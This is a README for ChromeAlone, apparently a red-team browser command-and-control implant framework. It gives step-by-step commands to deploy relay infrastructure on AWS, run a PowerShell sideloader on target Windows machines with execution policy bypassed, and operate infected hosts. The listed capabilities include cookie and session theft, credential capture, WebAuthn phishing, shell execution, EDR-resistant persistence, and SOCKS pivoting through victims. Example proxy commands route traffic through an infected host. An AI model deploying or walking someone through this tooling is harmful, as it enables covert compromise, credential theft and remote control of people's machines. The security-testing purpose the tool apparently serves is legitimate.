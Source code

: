 # ChromeAlone - A Browser C2 Framework

![Architecture Diagram](BATTLEPLAN.png)

# What does this get me?
ChromeAlone is a browser implant that can be used in place of conventional implants like Cobalt Strike or Meterpreter. This repo provides a simple build process that will generate a management console, deploy infrastructure, and create a powershell sideloader script to run on targets. 

After installation, each ChromeAlone implant will provide mechanisms for:

* Providing a SOCKS TCP Proxy on the host
* Browser session stealing and credential capture
* Launching executables on the host from Chrome
* Phishing for WebAuthn requests for physical security tokens like YubiKeys or Titan Security Keys.
* An EDR resistant form of persistence on host that is implemented entirely with Chromium's built-in features.

# Build Instructions

First build the docker container: `docker build -t chromealone .`

## Deployment Instructions

There are currently two supported deployment modes. Note that in either case, you should be running `docker` from the base directory of the ChromeAlone git repository.

### Deployment from scratch via AWS

For this you'll need to have an AWS account configured with your credentials stored in `~/.aws/credentials`. Make sure your account has full EC2 write permissions along with Route53 permissions. Additionally it's assumed that your Route53 has been configured with at least 1 hosting zone containing a registered domain. If these conditions are met, then you can run this command.

```
docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --domain=sendmea.click --appname=UpdateService --region=us-west-2
```

The `domain` value should match a domain under the control of your Route53 setup. `appname` can be whatever value you want, and will be used for naming several registry keys and folders on disk when deploying. It is recommended to use a fairly benign name like `UpdateService` or something equally innocuous.
Note that `region` is optional, and will default to `us-east-2` if not specified.

This will deploy the BATTLEPLAN relay server to AWS and generate the following artifacts:

`output/client` - The control webapp to manage your ChromeAlone installs.

`output/sideloader.ps1` - The installation script to run on targets to infect their local browser instance. NOTE: There will also be an `iwa-sideloader.ps1` file for loading ONLY the Isolated Web App, and 
`extension-sideloader.ps1` for loading ONLY the browser extension.

`output/extension` - The generated malicious browser extension.

`output/iwa` - The generated malicious Isolated Web App signed webapp bundle file.

`output/relay-deployment` - Terraform artifacts from your AWS deployment including an SSH key for directly accessing the host.

### Generate Deployment scripts from an existing server deployment

If you've already deployed an instance, `output/relay-deployment/terraform.tfvars` will contain all the information necessary to generate new sideloader scripts + malicious extensions. You can point the ChromeAlone docker file at the `tfvars` file and it will skip the deployment step while maintaining the appropriate metadata to handle connections.

Run the build script `docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --tfvars=/project/path/to/terraform.tfvars --appname=UpdateService` and it will generate a new malicious sideloader for your deployment.

## Installing on Hosts

Take `sideloader.ps1` and execute it on your target Windows 10 or Windows 11 machine by running `powershell.exe ExecutionPolicy Bypass -File .\path\to\sideloader.ps1`. Note that you can run with additional flags if you would like to install a NativeMessaging host (required for shelling out) or force chrome to restart (necessary if you want your extension to run immediately after running this script versus waiting for the next time the user opens Chrome). An example invocation with both of these flags is `powershell.exe -ExecutionPolicy Bypass .\sideloader.ps1 -InstallNativeMessagingHost $true -ForceRestart $true`. You can also modify the defaults at the top of the script from `false` to `true` if you wish these flags to automatically be used.

A complete script execution will take roughly 20-30 seconds.

# Operator Instructions

Once ChromeAlone is loaded, you can view any connected hosts by opening `output/client/index.html`. This webapp will be pre-configured to connect back to your deployed BATTLEPLAN relay instance. Note that by default, the relay is firewalled to only allow incoming control access on ports 1080-1181 from the IP that deployed the server. If you wish to modify this, you'll need to update the EC2 instance's network settings to include any additional machines.

Most commands can be run from the WebUI including:

* Dumping history + cookies (via the `Quick Commands` section, which requires selecting a target agent in the `Execute Command` section)
* Capturing Credentials (these will appear via the `Captured Data` tab)
* Forcing WebAuthn requests (via the `Execute Command` section)
* File System reads (via the `File Browser` tab)
* Executing Shell commands (via the `Interactive Shell` tab)

The primary exception to this is SOCKS proxying. Each infected host is assigned a unique SOCKS port for the server that can be seen under the `Agent Information` section, where each agent has a `Port` field. The assigned port, when combined with the `admin` credentials stored in `output/client/config.js` can be used to configure a host specific SOCKS proxy.

For example, say we have an agent where the port is 1081, our domain is `chrome.alone`, our username `admin` (this is always the case), and our password is `thisisnotarealpassword`. Here are some example usages:

```
proxychains -q socks5 admin:thisisnotarealpassword@chrome.alone:1081 curl http://ifconfig.me
xfreerdp /cert:ignore /v:<target RDP host> /u:<target RDP username> /proxy:socks5://admin:thisisnotarealpassword@chrome.alone:1081
curl -x socks5h://chrome.alone:1081 -u "admin:thisisnotarealpassword" http://ifconfig.me
```

# What's in this Repository?

The ChromeAlone repository is broken down into components, many of which could be used individually as part of an assessment - but together represent the entire Chromium browser implant toolchain.

* `BATTLEPLAN` - This is the management server component of the toolchain. It contains terraform scripts for deploying to an AWS environment as well as an HTML client for interacting with the server post deployment.
* `BLOWTORCH` - This is a malicious Isolated Web Application which uses `Direct Socket` permissions to implement a SOCKS TCP proxy and websocket server to enable communications between other chrome components. It also acts as the messaging bridge back to the `BATTLEPLAN` relay server.
* `DOORKNOB` - This is a series of scripts used for generating powershell sideloaders for Isolated Web Apps and Chrome Extensions. The script in `build.sh` provides an example of how to create a single Powershell installer script that combines both of theses individual sideloaders into one.
* `HOTWHEELS` - This is a malicious Chrome extension that implements all of its capabilities in Web Assembly. It provides the vast majority of ChromeAlone's feature sets for credential capture, session hijacking, shelling out, and reading the file system.
* `PAINTBUCKET` - A series of content scripts that enable phishing for WebAuthn requests by hiding additional WebAuthn requests within iFrames in inactive tabs whenever a normal WebAuthn request is made.

# Who made this?

This tool has been written by [Mike Weber](https://www.linkedin.com/in/michael-weber-6a466517/) of [Praetorian Security](https://www.praetorian.com/).

# License

ChromeAlone is licensed under the Apache License, Version 2.0.

```
Copyright 2025 Praetorian Security, Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
```
